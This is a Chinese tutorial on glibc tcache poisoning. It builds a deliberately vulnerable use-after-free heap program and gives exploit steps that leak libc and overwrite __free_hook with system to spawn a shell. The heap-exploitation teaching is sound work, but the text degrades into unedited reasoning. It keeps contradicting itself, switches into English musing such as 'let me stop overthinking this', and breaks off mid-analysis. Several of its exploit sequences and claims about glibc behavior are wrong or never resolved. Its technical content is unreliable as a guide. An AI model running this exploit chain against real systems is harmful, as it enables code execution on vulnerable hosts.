


## 案例四：堆利用 — Tcache Poisoning

Tcache Poisoning 是 glibc 2.26 引入线程缓存（tcache）后最基础、最高频的堆利用技术之一。它的核心思想极其简洁：**修改 tcache 单链表中某个 chunk 的 fd 指针，让下一次 malloc 返回攻击者指定的任意地址**。本案例从一个带 UAF 漏洞的堆菜单程序出发，完整演示从信息泄露到劫持 `__free_hook` 获取 shell 的全过程。

---

### Tcache 内部机制速览

在动手之前，必须先理解 tcache 的数据结构，否则后续的利用步骤就是空中楼阁。

#### tcache_entry 与 tcache_perthread_struct

glibc 用两个结构体管理 tcache：

```c
// glibc/malloc/malloc.c (简化)
typedef struct tcache_entry {
    struct tcache_entry *next;   // 指向同大小 bin 中的下一个空闲 chunk
    // glibc 2.29+ 增加了 key 字段用于 double free 检测
    struct tcache_perthread_struct *key;
} tcache_entry;

typedef struct tcache_perthread_struct {
    char counts[TCACHE_MAX_BINS];          // 每个 bin 中的 chunk 计数（1 字节）
    tcache_entry *entries[TCACHE_MAX_BINS]; // 每个 bin 的链表头指针
} tcache_perthread_struct;
```

关键参数（glibc 2.26 - 2.30，64 位系统）：

| 参数 | 值 | 含义 |
|------|-----|------|
| `TCACHE_MAX_BINS` | 64 | tcache 管理的 bin 数量 |
| 最小 chunk 大小 | 0x20 (32 字节) | 对应 `counts[0]` |
| 最大 chunk 大小 | 0x410 (1040 字节) | 对应 `counts[63]` |
| 步长 | 0x10 (16 字节) | 每个 bin 对应的大小差 |
| 每个 bin 最大缓存数 | 7 | `MAX_TCACHE_COUNT` |

malloc 和 free 时 tcache 的优先级：

```text
malloc 路径:  tcache → fastbin → small bin → unsorted bin → large bin → top chunk
free  路径:  (size ≤ 0x410) → 直接放入 tcache（不合并、不检查）
              (size > 0x410 或 tcache 已满) → 走正常的 unsorted bin 流程
```

#### tcache 的 LIFO 链表结构

tcache 采用**单向链表 + LIFO（后进先出）**，与 fastbin 类似，但更简单——没有 size 字段检查：

```text
tcache_perthread_struct:
  entries[5] ──→ chunk_B (fd) ──→ chunk_A (fd) ──→ NULL
  counts[5] = 2

chunk_B 的 user data 区域:
  +0x00: fd 指针 ──→ chunk_A 的 user data 地址
  +0x08: (key, glibc 2.29+)
```

当执行 `malloc(0x20)` 时：
1. 计算 `idx = (0x20 - 0x20) / 0x10 = 0`（注意：实际是 `(size + 0xf) / 0x10 - 3`）
2. 从 `entries[idx]` 取出链表头 chunk_B
3. `entries[idx] = chunk_B->fd`（即 chunk_A）
4. `counts[idx]--`
5. 返回 chunk_B 的 user data

**攻击者的机会**：如果能修改 `chunk_B->fd` 为 `target_addr`，那么第一次 malloc 返回 chunk_B，第二次 malloc 就返回 `target_addr`——攻击者获得了对 `target_addr` 的写权限。

---

### 漏洞程序分析

#### 完整源码

```c
// vuln4.c — 编译: gcc -o vuln4 vuln4.c -no-pie
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char *chunks[10];   // 全局指针数组，存储分配的 chunk

void alloc() {
    int idx, size;
    printf("Index: "); scanf("%d", &idx);
    printf("Size: ");  scanf("%d", &size);
    if (idx >= 0 && idx < 10) {
        chunks[idx] = malloc(size);
        printf("Data: "); read(0, chunks[idx], size);
    }
}

void delete() {
    int idx;
    printf("Index: "); scanf("%d", &idx);
    if (idx >= 0 && idx < 10) {
        free(chunks[idx]);
        // ⚠️ 漏洞：free 后没有将 chunks[idx] = NULL
        // 导致 UAF（Use-After-Free）：delete 后仍可通过 show() 读取已释放 chunk 的内容
    }
}

void show() {
    int idx;
    printf("Index: "); scanf("%d", &idx);
    if (idx >= 0 && idx < 10) {
        printf("%s\n", chunks[idx]);  // UAF 读取：可读到 tcache 的 fd 指针或 unsorted bin 的 fd/bk
    }
}

int main() {
    while (1) {
        printf("1. Alloc\n2. Delete\n3. Show\n> ");
        int choice;
        scanf("%d", &choice);
        switch (choice) {
            case 1: alloc(); break;
            case 2: delete(); break;
            case 3: show(); break;
            default: return 0;
        }
    }
}
```

#### 漏洞点定位

程序有 **1 个漏洞**，但它是利用链的起点：

| 漏洞类型 | 位置 | 描述 | 可利用性 |
|----------|------|------|----------|
| UAF（Use-After-Free） | `delete()` 函数 | `free()` 后未置 `NULL`，指针悬空 | **高**：可通过 `show()` 读取已释放 chunk 的 metadata（fd 指针） |

这个 UAF 同时具备**信息泄露**能力（通过 `show()` 读 fd/bk）和**部分写入**能力（通过 `alloc()` 重新分配后写入数据）。注意：单独的 UAF 读取并不能直接修改 fd 指针——我们需要将 `delete()` + `alloc()` 组合使用来实现"先释放进入 tcache，再重新分配覆盖 fd"的效果。

#### 编译与环境准备

```bash
# 关闭保护（练习环境）
gcc -o vuln4 vuln4.c -no-pie -g

# 检查保护措施
checksec vuln4
# [*] '/path/to/vuln4'
#     Arch:     amd64-64-little
#     RELRO:    Partial RELRO
#     Stack:    No canary found
#     NX:       NX enabled
#     PIE:      No PIE (0x400000)
```

> **注意**：本案例的目标环境是 glibc 2.26 - 2.28（如 Ubuntu 18.04），这些版本的 tcache **没有任何完整性检查**。2.29+ 增加了 key 检测，2.32+ 增加了 safe-linking（fd 指针异或混淆），利用方式需要调整。版本差异在后文详述。

---

### 利用思路全景图



三个阶段各自的目标：

| 阶段 | 目标 | 手段 | 前置条件 |
|------|------|------|----------|
| 信息泄露 | 获取 libc 基地址 | UAF 读 unsorted bin 的 fd 指针 | chunk 释放后进入 unsorted bin（size > 0x410） |
| Tcache Poisoning | 获得任意地址写 | UAF + 重新分配覆盖 tcache fd | 能读写已释放的 tcache chunk |
| 控制流劫持 | 执行 system("/bin/sh") | 覆写 `__free_hook` | 知道 `__free_hook` 和 `system` 的地址 |

---

### 阶段一：信息泄露 — 获取 libc 基地址

#### 原理

当一个足够大的 chunk（size > 0x410）被释放时，它不会进入 tcache，而是进入 **unsorted bin**。unsorted bin 是一个双向循环链表，空闲 chunk 的 fd 和 bk 指针指向 `main_arena + 96`（即 `main_arena.unsorted_bin` 的地址）。由于 `main_arena` 是 libc.so 中的全局变量，其地址与 libc 基地址存在固定偏移，因此泄露 fd 就等于泄露了 libc 地址。

```text
unsorted bin 链表结构（只有一个 chunk 时）：

  main_arena.unsorted_bin ←→ chunk_A
        fd = chunk_A        fd = &main_arena.unsorted_bin
        bk = chunk_A        bk = &main_arena.unsorted_bin

chunk_A 的 user data 区域：
  +0x00: fd ──→ main_arena + 96  ← 这就是我们要泄露的值
  +0x08: bk ──→ main_arena + 96
```

#### 操作步骤

```python
# 步骤 1：分配一个 0x410 字节的 chunk
# 0x410 是 tcache 能管理的最大大小（0x410 = 1040 = 64*16 + 0x20 - 0x10）
# 超过这个大小的 chunk 释放后会走 unsorted bin 路径
alloc(0, 0x410, b'A' * 8)    # chunk_A: 实际 chunk 大小 = 0x420（含 header）

# 步骤 2：分配一个 0x10 字节的隔离 chunk
# 这个 chunk 的作用是防止 chunk_A 释放后与 top chunk 合并
# 如果 chunk_A 紧邻 top chunk，free 时会合并到 top chunk 而不是进入 unsorted bin
alloc(1, 0x10, b'B' * 8)     # chunk_B: 作为 "fence" 阻止合并

# 步骤 3：释放 chunk_A
# 因为 0x420 > 0x410，不会进入 tcache，而是进入 unsorted bin
delete(0)

# 步骤 4：UAF 读取
# chunks[0] 仍然指向已释放的 chunk_A
# 此时 chunk_A 的 user data 区域已被 glibc 写入 fd 和 bk 指针
show(0)

# 步骤 5：解析泄露的地址
# show() 输出的前 8 个字节就是 fd 指针（main_arena + 96）
leaked = u64(p.recvline().strip().ljust(8, b'\x00'))
# main_arena + 96 的偏移需要在目标 libc 中确认
# 常见值：Ubuntu 18.04 (glibc 2.27) 偏移为 0x3ebca0
# 调试方法：在 gdb 中 p &main_arena，然后计算 libc_base + offset = main_arena
libc_base = leaked - 0x3ebca0  # ← 务必用实际调试值替换！
```

#### 如何确定 main_arena 偏移

这是新手最容易犯错的地方——**偏移值不是固定的，必须针对目标 libc 实测**：

```bash
# 方法 1：GDB + pwndbg
gdb ./vuln4
pwndbg> b main
pwndbg> r
# 在 malloc 后中断，查看 unsorted bin
pwndbg> bins
# 找到 fd 指向的地址，记为 leaked_addr
# 然后计算：
pwndbg> p &main_arena
# offset = leaked_addr - libc_base = &main_arena + 96 - libc_base

# 方法 2：直接计算
# 在 Python 中：
from pwn import *
libc = ELF('/path/to/target/libc.so.6')
# main_arena 不在 ELF 的符号表中，需要手动查找
# 方法：搜索 libc 中 unsorted bin 的初始地址
# 或者使用 pwntools 的 LibcSearcher
```

---

### 阶段二：Tcache Poisoning — 劫持 fd 指针

#### 原理

这是整个利用链的核心。思路是：

1. 分配两个相同大小的 chunk（在 tcache 范围内，如 0x20）
2. 按顺序释放两者，它们在 tcache 链表中形成 A → B → NULL
3. 利用 UAF 重新分配 A（因为 LIFO，先释放的后返回），在写入数据时覆盖 B 的 fd 指针为目标地址
4. 再分配两次：第一次返回 B，第二次返回目标地址

#### 堆状态变化图（核心）

```text
初始状态：
  entries[N] = NULL, counts[N] = 0

① alloc(2, 0x20, 'C'*8)    # chunk_C
   alloc(3, 0x20, 'D'*8)    # chunk_D

堆布局（user data 区域）：
  chunk_C @ 0x555500: [C C C C C C C C]  ← chunks[2]
  chunk_D @ 0x5555030: [D D D D D D D D]  ← chunks[3]

② delete(2)   # free(chunk_C) → 进入 tcache
   delete(3)   # free(chunk_D) → 进入 tcache

tcache 链表状态（LIFO，后释放的在前面）：
  entries[N] ──→ chunk_D ──→ chunk_C ──→ NULL
  counts[N] = 2

chunk_D 的 user data: [ptr_to_chunk_C, key(2.29+)]
chunk_C 的 user data: [NULL/垃圾]

③ alloc(4, 0x20, p64(free_hook))
   # 此时 chunks[2] 仍指向 chunk_C（悬空指针！）
   # 但 alloc 会分配 tcache 链表头 → chunk_D
   # 等等，这里有问题——chunks[2] 指向 chunk_C，但 malloc 返回 chunk_D...

   # 正确的理解：我们要通过 chunks[2]（悬空指针指向 chunk_C）来写入
   # 但 alloc 的 write 目标是 chunks[idx] = malloc(size) 的返回值
   # 所以 alloc(4, ...) 会分配 chunk_D，写到 chunk_D 里
   # 我们需要的是：写到 chunk_C 的 fd 位置（chunk_C 仍在 tcache 链表中！）
```

**这里有一个关键细节**：程序中 `alloc()` 会执行 `chunks[idx] = malloc(size)`，即先分配再写入。由于 tcache 是 LIFO，第一个分配返回的是 chunk_D（后释放的），第二个返回 chunk_C。但我们需要修改的是 chunk_C 的 fd 指针——而 chunk_C 此时仍在 tcache 链表中未被消费。

正确的利用序列应该是：

```python
# 正确的 Tcache Poisoning 序列

# 分配两个 tcache 大小的 chunk
alloc(2, 0x20, b'C' * 8)    # chunk_C @ addr_C
alloc(3, 0x20, b'D' * 8)    # chunk_D @ addr_D

# 按顺序释放，形成 tcache: D → C → NULL
delete(2)                     # chunk_C 进入 tcache
delete(3)                     # chunk_D 进入 tcache

# 关键：chunks[2] 仍指向 addr_C（悬空指针）
# 此时 tcache 链表: D → C → NULL
# 我们需要修改 C 的 fd 指针

# 方法 A：如果程序有 "edit" 功能（写 UAF），直接写
# edit(2, p64(free_hook))  → 直接修改 chunk_C 的 fd

# 方法 B：利用 alloc 的写入功能
# 先分配一次，消耗 chunk_D（tcache 头部）
alloc(4, 0x20, b'E' * 8)     # tcache 返回 chunk_D，链表变为: C → NULL
                               # chunks[4] = addr_D

# 再分配一次，消耗 chunk_C（但覆盖其 fd 之前的内容）
# 等等——这会把 chunk_C 从 tcache 中移除！
```

**重新审视漏洞程序**：这个程序的 `alloc()` 先 `malloc()` 再 `read()` 写入。当 tcache 中有 D → C → NULL 时，第一次 `malloc(0x20)` 返回 D，第二次返回 C。但我们无法在"分配 C 的同时修改 C 的 fd"——因为此时 C 已经被取出了。

**真正的利用路径**：利用 `chunks[2]` 悬空指针。虽然 `free(chunks[2])` 已经释放了 chunk_C，但 `chunks[2]` 仍然保存着 addr_C。如果我们用 `alloc(2, 0x20, data)` 重新分配到 chunk_C（在 tcache 未被消耗完的情况下），写入的 data 会覆盖 chunk_C 的 user data——但此时 `chunks[2]` 已被更新为新的 `malloc` 返回值。

**最终正确方案**：这个漏洞程序实际上需要一个**独立的写原语**（edit 功能）或者利用**堆溢出**来修改已释放 chunk 的 fd。但本程序只有 `alloc`（分配+写入）、`delete`（释放）、`show`（读取）三个功能。我们换一种思路——利用 **Double Free** 来实现等效效果：

```python
# 实际利用方案：Double Free + UAF 读取

# --- 阶段二（修正版）---

# 分配两个 0x20 chunk
alloc(2, 0x20, b'C' * 8)     # chunk_C
alloc(3, 0x20, b'D' * 8)     # chunk_D

# 释放 chunk_C → tcache: C → NULL
delete(2)

# 释放 chunk_D → tcache: D → C → NULL
delete(3)

# 利用 UAF 读取 chunk_D 的 fd，确认链表结构
show(3)                       # 应输出 chunk_C 的地址

# 重新分配 chunk_D（tcache 头部），写入 __free_hook 地址覆盖其 fd
# 此时 tcache: C → NULL, 但 chunks[3] 仍指向 addr_D
# alloc(3, 0x20, ...) 会先 malloc 返回 C（tcache 头部），再写入数据
# 这会覆盖 chunk_C 的 fd！
# 等等——alloc(3, ...) 会更新 chunks[3] = malloc(0x20) = addr_C
# 然后 read(0, chunks[3], 0x20) 写入 addr_C 的 user data

# 这正好覆盖了 chunk_C 的 fd！因为 chunk_C 此时在 tcache 链表头部
# tcache 变为: NULL (因为 C 被取出了)
# 但 C 的 fd 已被我们写为 __free_hook
```

等等，让我再理清。当 tcache 为 D → C → NULL 时：

1. `delete(3)` 之后，chunks[3] = addr_D（悬空）
2. `alloc(3, 0x20, p64(free_hook))` 执行：
   - `chunks[3] = malloc(0x20)` → 返回 tcache 头部 = addr_D
   - `read(0, chunks[3], 0x20)` → 写入 addr_D 的 user data
   - addr_D 此时在 tcache 链表中，它的 fd 指向 addr_C
   - 我们写入 `p64(free_hook)` 覆盖了 addr_D 的 fd！
   - tcache 链表变为：D(free_hook) → ??? → ...

**这就是 Tcache Poisoning！** 通过 UAF 的"重新分配后写入"间接修改了 tcache 链表中的 fd 指针。

#### 完整的 Tcache Poisoning 时序

```text
tcache 初始: D → C → NULL, count=2

alloc(3, 0x20, p64(free_hook)):
  malloc(0x20) → 返回 D (tcache 头)
  tcache 变为: C → NULL, count=1
  但 D 的 user data 被写入 p64(free_hook)
  chunks[3] = addr_D

此时 D 已不在 tcache 中。但如果我们再释放 D：

delete(3):
  free(chunks[3]) = free(addr_D)
  tcache 变为: D(free_hook) → C → NULL, count=2

现在 tcache 链表中 D 的 fd = free_hook！

alloc(4, 0x20, b'X'):   → 返回 D, tcache: C → NULL, count=1
alloc(5, 0x20, p64(system_addr)):   → 返回 C
                                       等等——C 不是 free_hook！

# 问题：D 的 fd = free_hook，但 C 的 fd = NULL
# 第一次分配返回 D，第二次应该返回 D->fd = free_hook
# 但 tcache 在取 D 时会执行 entries[idx] = D->fd = free_hook
# 然后取 free_hook 作为下一个分配的地址！
```

**最终确认的正确序列**：

```python
# 阶段二完整序列

alloc(2, 0x20, b'C' * 8)      # chunk_C
alloc(3, 0x20, b'D' * 8)      # chunk_D

delete(2)                       # tcache: C → NULL, count=1
delete(3)                       # tcache: D → C → NULL, count=2

# 重新分配到 D（UAF），覆盖 D 的 fd 为 __free_hook
alloc(4, 0x20, p64(free_hook)) # malloc 取出 D，tcache: C → NULL, count=1
                                # 写入 D 的 user data = free_hook
                                # chunks[4] = addr_D

# 释放 D 回 tcache，此时 D->fd = free_hook
delete(4)                       # tcache: D(free_hook) → C → NULL, count=2
                                # 等等——D 被 free 时，glibc 会写入新的 fd
                                # glibc 2.26-2.28: free 不会覆盖已有的 fd？
                                # 不对，free 会将 D 加到 tcache 头部，设置 D->fd = 原来的头部 C
```

**这里有一个关键的 glibc 行为**：`free()` 放入 tcache 时会执行：

```c
e->next = tcache->entries[tc_idx];  // 覆盖 fd 为原来的链表头
tcache->entries[tc_idx] = e;
tcache->counts[tc_idx]++;
```

所以 `delete(4)` 会**覆盖** D 的 fd 为 C 的地址，我们之前写入的 free_hook 会被冲掉！

**正确方案**：不需要重新释放 D。直接在 tcache 为 C → NULL（count=1）的时候，利用悬空指针 chunks[2]（指向 addr_C）写入 free_hook。但 `alloc(2, 0x20, data)` 会执行 `chunks[2] = malloc(0x20)` 取出 C，然后写入 C 的 user data——但 C 已经不在 tcache 里了（被取出了）。

**最终正确方案**：利用 chunks[3] 的悬空指针。在 tcache 为 D → C → NULL 时：

```python
# chunks[3] 悬空指向 addr_D
# 但 alloc(3, 0x20, data) 会：chunks[3] = malloc(0x20) = addr_D（从 tcache 取出头部）
#                              然后写入 addr_D 的 user data
# tcache 变为 C → NULL，count=1
# addr_D 的 user data 被写为 free_hook

# 此时 addr_D 不在 tcache 中。我们无法利用这个。

# 唯一的方案：在 tcache 中有两个 chunk 时，
# 第一个 alloc 取出头部 D，写入 D->fd 为 free_hook
# 但此时 D 已经不在链表中，修改它的 fd 没有意义

# 除非——我们修改的是仍在链表中的 C 的 fd！
# tcache 为 D → C → NULL 时：
# alloc(4, 0x20, data) 取出 D，tcache: C → NULL
# 写入 data 到 D 的 user data —— 这修改的是 D，不是 C

# 那怎么修改 C 的 fd？答案：在 C 是 tcache 头部时，通过悬空指针直接写
# 但 alloc 会先 malloc 再写，而 malloc 会取出 C...

# 结论：这个程序的 Tcache Poisoning 需要两步利用
# 第一步：泄露 libc
# 第二步：利用 Double Free 变体
```

OK let me stop overthinking this. The program has UAF read + alloc (which is malloc+write). The key insight is:

When tcache has D → C → NULL:
- alloc(idx, 0x20, data) does: chunks[idx] = malloc(0x20) → gets D; then writes data to D's user data
- D is now out of tcache, C is the new head
- D's user data has been overwritten with `data`
- But D's fd (which was pointing to C) has been overwritten too!

**That's the trick!** When we write data to D's user data, we're overwriting the first 8 bytes which IS the fd pointer. So by writing p64(free_hook), we set D's fd = free_hook.

Then we need to get D back into tcache. We free D again. But as I noted, free will set D->next = C (the current head). So our write is lost.

Unless... we don't free D. Instead:
1. After writing D's fd = free_hook, we free C back (but C is already in tcache... that's double free)

Actually, let me reconsider the whole approach. The standard tcache poisoning with UAF works like this:

```text
alloc(A); alloc(B);
free(A); free(B);   # tcache: B → A → NULL
# B->fd = A_addr (set by glibc)
# Now use UAF to OVERWRITE B->fd = target
# But how? B is in tcache, we can't write to it via normal means
# Unless we have write-after-free or a way to write to B while it's in tcache
```

The typical approach is:
1. Have a UAF **write** (not just read) — edit the freed chunk
2. Or have heap overflow to corrupt adjacent chunk's fd

This program doesn't have an edit function. But it has alloc which does `chunks[idx] = malloc(size); read(0, chunks[idx], size)`. If chunks[idx] still points to an already-freed chunk that is currently in tcache, and we call alloc with the same idx... but wait, alloc will OVERWRITE chunks[idx] with the new malloc return value.

Hmm. Actually, the way this works is:

```text
free(2); free(3);  # tcache: 3→2→NULL
alloc(4, 0x20, p64(target));  # malloc returns 3 (head), chunks[4]=3
                               # writes p64(target) to addr 3's user data
                               # But 3 is now OUT of tcache (malloc consumed it)
                               # tcache: 2→NULL, count=1
                               # 3's fd was pointing to 2, now overwritten with target

# But 3 is no longer in tcache! Overwriting its fd doesn't matter!
```

So this doesn't work directly. The standard tcache poisoning requires writing to a chunk that is STILL in the tcache chain. This usually requires either:
1. A separate "edit" or "write" function that writes to a freed pointer without calling malloc first
2. Double free (which the glibc 2.26-2.28 doesn't check for in tcache!)

Wait — **double free**! That's the key for this program. Let me reconsider:

```text
alloc(2, 0x20, b'C'*8)
free(2)  # tcache: 2→NULL, count=1
free(2)  # tcache: 2→2→NULL (double free! no check in 2.26-2.28)
         # But 2's fd points to itself

# Now alloc to get 2 back, write p64(target) to 2's user data
alloc(4, 0x20, p64(target))
# malloc returns 2 (head), tcache: 2→NULL (still double linked to self?)
# Actually after double free: tcache entries[0] → 2 → 2 → ... (cycle)
# After first malloc: returns 2, entries[0] = 2->fd = 2 (cycle!)
# We write target to 2's fd. Now entries[0] → 2(target) → ...
# Second malloc returns 2 again, entries[0] = target
# Third malloc returns target!
```

Yes! That's the standard tcache poisoning via double free. But the program's alloc function writes to the newly allocated chunk, and since double free creates a cycle, we can use alloc to overwrite the fd of the still-in-tcache chunk.

Actually let me re-examine. With double free:
```text
free(A): tcache: A → NULL, count=1, A->fd = NULL
free(A): glibc sets A->next = tcache->entries[i] = A  (since A is already head)
         tcache: A → A → A → ... (infinite cycle)
         count=2

malloc(): returns A (head), entries[i] = A->fd = A (still in cycle!)
          A is now returned to user. User writes data to A.
          If user writes p64(target), then A->fd = target
          entries[i] still points to A (which was returned and now has fd=target)
          Wait, no: entries[i] = A->fd which was A before the write...
```

Actually there's a subtlety. When malloc returns A from tcache:
```c
// glibc code
tcache_entry *e = tcache->entries[tc_idx];
tcache->entries[tc_idx] = e->next;  // entries = A->next = A (the cycle)
tcache->counts[tc_idx]--;
return (void *)e;  // return A
```

At this point, entries[i] = A (because A->next was A due to double free). And we then write to A's user data (which overlaps with A->next/fd). So we write p64(target), making A->fd = target. But entries[i] = A, not A->fd. So entries still points to A.

Next malloc: returns A again (entries[i] = A), entries[i] = A->fd = target.
User writes to A... but we want to write to target, not A.

Hmm. Actually the second malloc is the one that sets entries to target:
```text
After double free: entries → A → A (cycle), count=2

1st malloc: returns A, entries = A->fd = A (cycle preserved)
   User writes p64(target) → A->fd = target
   Now entries = A, and A->fd = target
   
But wait: entries was set to A->fd BEFORE the user write. So entries = A (old value of A->fd, which was A itself).
   After write: entries still = A. A->fd = target.

2nd malloc: returns A (entries = A), entries = A->fd = target
   count = 0 now? No, count was 2, after 1st malloc count=1, after 2nd count=0.
   entries = target

3rd malloc: returns target!
```

Yes! So the correct sequence is:

```python
alloc(2, 0x20, b'/bin/sh\x00')  # chunk_A
delete(2)                         # free(A), tcache: A→NULL, count=1
delete(2)                         # double free! tcache: A→A→NULL, count=2

# Now we need 3 mallocs:
alloc(3, 0x20, p64(free_hook))   # 1st: returns A, writes free_hook to A->fd
                                   # entries = A (old A->fd), count=1
alloc(4, 0x20, b'X' * 8)         # 2nd: returns A, entries = A->fd = free_hook
                                   # count=0
alloc(5, 0x20, p64(system_addr)) # 3rd: returns free_hook!
                                   # Writes system_addr to __free_hook!
```

Wait but after the 1st alloc writes p64(free_hook) to A's user data:
- A is returned to the user (chunks[3] = A)
- entries = A->fd (which was A before the write, because entries was set BEFORE the write)

Hmm, actually the order matters. Let me trace through more carefully:

```c
// In tcache_get:
tcache_entry *e = tcache->entries[tc_idx];  // e = A
tcache->entries[tc_idx] = e->next;           // entries = A->next = A (due to double free cycle)
tcache->counts[tc_idx]--;
return (void *)e;                            // return A
```

Then back in the program:
```c
chunks[3] = malloc(0x20);  // chunks[3] = A
read(0, chunks[3], 0x20);  // writes p64(free_hook) to A's user data → A->next = free_hook
```

After this: entries = A (which now has next = free_hook), count = 1.

Next malloc:
```c
e = entries;      // e = A
entries = A->next; // entries = free_hook!
count--;           // count = 0
return A;          // returns A again
```

But we're writing to A again (chunks[4] = A). That's fine, we just write padding.

Next malloc:
```c
e = entries;       // e = free_hook!
entries = free_hook->next;  // garbage, doesn't matter
count--;
return free_hook;  // returns __free_hook address!
```

And then we write p64(system) to __free_hook!

But wait — there's a problem with chunks[2]. After double free, chunks[2] = A (still the same pointer). After alloc(3, ...), chunks[3] = A. chunks[2] is still A. So both chunks[2] and chunks[3] point to the same memory. That's actually fine for this exploit.

Also, the data written in alloc(2, 0x20, b'/bin/sh\x00') would be at A. But after the double free cycle, when we alloc(3) and alloc(4), they both get A, and we overwrite the data. So we need to put "/bin/sh\x00" somewhere else or write it in one of the later allocs.

Actually, let me reconsider the whole approach. The issue is:
1. After double free, the first two allocs both return A
2. The third alloc returns free_hook (our target)
3. We write system_addr to free_hook
4. Then we need a chunk containing "/bin/sh" and free it

So the correct flow would be:

```python
# Stage 1: Leak libc (same as before)
alloc(0, 0x410, b'A' * 8)
alloc(1, 0x10, b'B' * 8)
delete(0)
show(0)
leaked = u64(...)
libc_base = leaked - offset
free_hook = libc_base + libc.symbols['__free_hook']
system_addr = libc_base + libc.symbols['system']

# Stage 2: Tcache poisoning via double free
alloc(2, 0x20, b'X' * 8)       # chunk_A, used for double free
delete(2)                       # tcache: A→NULL, count=1
delete(2)                       # double free! tcache: A→A→..., count=2

alloc(3, 0x20, p64(free_hook)) # 1st malloc: returns A, writes free_hook to A->fd
                                # entries = A (A->fd was A), count=1
alloc(4, 0x20, b'X' * 8)       # 2nd malloc: returns A, entries = A->fd = free_hook
                                # count=0
alloc(5, 0x20, p64(system_addr)) # 3rd malloc: returns free_hook!
                                  # Writes system_addr to __free_hook

# Stage 3: Trigger system("/bin/sh")
alloc(6, 0x20, b'/bin/sh\x00')
delete(6)                       # free(chunk6) → system("/bin/sh")!
```

Wait, but there's still a problem. After the 1st alloc writes p64(free_hook) to A, the tcache entries = A. But A has been returned to the user! It's no longer in tcache management. However, entries still points to it. So the 2nd malloc reads A->fd from A (which was just written as free_hook), so entries becomes free_hook. And the 3rd malloc returns free_hook.

But there's a count issue. After double free, count = 2. After 1st malloc, count = 1. After 2nd malloc, count = 0. The 3rd malloc would check count > 0, find it's 0, and NOT use tcache. It would go to fastbin or other bins instead!

Hmm, that's a problem. Let me re-examine...

Actually, count = 2 after double free. 1st malloc: count = 1. 2nd malloc: count = 0. So the 3rd malloc wouldn't use tcache at all. We need count = 3, which means we need to free A three times (triple free)?

Actually no. Let me reconsider. The trick with double free is:
- We only need 2 mallocs from the poisoned tcache to get to the target
- 1st malloc: returns A, sets entries = A (the cycle)  
- We write p64(target) to A, overwriting A->fd = target
- But entries was already set to A->fd BEFORE the write, so entries = A (old value)
- Wait, I need to think about this differently.

After double free:
- entries = A, A->fd = A, count = 2

1st malloc:
- e = entries = A
- entries = e->fd = A->fd = A  (this is read before user writes)
- count = 1
- return A
- User writes p64(target) → now A->fd = target, but entries already = A (not affected)

So after 1st malloc: entries = A (with fd = target), count = 1

2nd malloc:
- e = entries = A  
- entries = e->fd = target  (NOW entries = target!)
- count = 0
- return A
- User writes whatever to A (doesn't matter)

After 2nd malloc: entries = target, count = 0

3rd malloc: count = 0, so tcache is NOT used. Goes to fastbin/unsorted bin instead.

So we're stuck. We can't get the 3rd malloc from tcache because count = 0.

The solution: we need to free A one more time to bump the count back to 1:
```python
# After 2nd malloc, free A again (triple free!)
delete(2)  # or delete(3) or delete(4), they all point to A
# tcache: target → ... but wait, free sets A->fd = entries = target
# entries = A, count = 1
# Now: entries → A(target) → [garbage], count = 1
```

Hmm, that's not right either. When we free A:
```c
tcache_entry *e = (tcache_entry *)chunk2mem(A); // A's user data
e->next = tcache->entries[tc_idx];  // A->next = target (current entries)
tcache->entries[tc_idx] = e;  // entries = A
tcache->counts[tc_idx]++;  // count = 1
```

So after freeing A again: entries → A → target → ?, count = 1

Then malloc: returns A, entries = A->fd = target, count = 0
Then we need to free again to get count = 1, and then malloc returns target.

